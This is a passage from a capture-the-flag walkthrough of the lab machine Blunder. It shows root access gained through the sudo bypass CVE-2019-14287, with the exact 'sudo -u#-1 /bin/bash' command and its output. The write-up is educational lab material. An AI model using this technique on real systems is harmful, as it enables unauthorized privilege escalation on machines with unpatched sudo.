     hugo@blunder:~$ cat user.txt
    da700cb5************************
    

## Priv: hugo –> root

### Enumeration

`sudo -l` gives something interesting:

    hugo@blunder:~$ sudo -l
    Password: 
    Matching Defaults entries for hugo on blunder:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User hugo may run the following commands on blunder:
        (ALL, !root) /bin/bash
    

This means that I can run as any user except for root, which is a shame, as root is the user I want to run it as.`sudo /bin/bash`

### CVE-2019-14287

The configuration above is supposed to stop as running as the root user. There was a public CVE release in November 2019 about how there were other ways to enter root besides that got around this restriction. This impacts versions before 1.8.28. I can see Blunder is running 1.8.25:`sudo``root``sudo`

    hugo@blunder:~$ sudo --version
    Sudo version 1.8.25p1
    Sudoers policy plugin version 1.8.25p1
    Sudoers file grammar version 46
    Sudoers I/O plugin version 1.8.25p1
    

When running , you can enter to say which user to run as. You can also enter the user as a number in the format . root is used id 0, so I can try:`sudo``-u [user]``-u#[uid]`

    hugo@blunder:~$ sudo -u#0 /bin/bash
    Password: 
    Sorry, user hugo is not allowed to execute '/bin/bash' as root on blunder.
    

So far things are working as expected. The vulnerability is that I can enter user id -1, and will treat that as root. It works:`sudo`

    hugo@blunder:~$ sudo -u#-1 /bin/bash
    Password:
    root@blunder:/home/hugo#
    

Now I can grab :`root.txt`

    root@blunder:/root# cat root.txt
    2f1f6d99************************
    

[查看原网页: 0xdf.gitlab.io](https://0xdf.gitlab.io/2020/10/17/htb-blunder.html)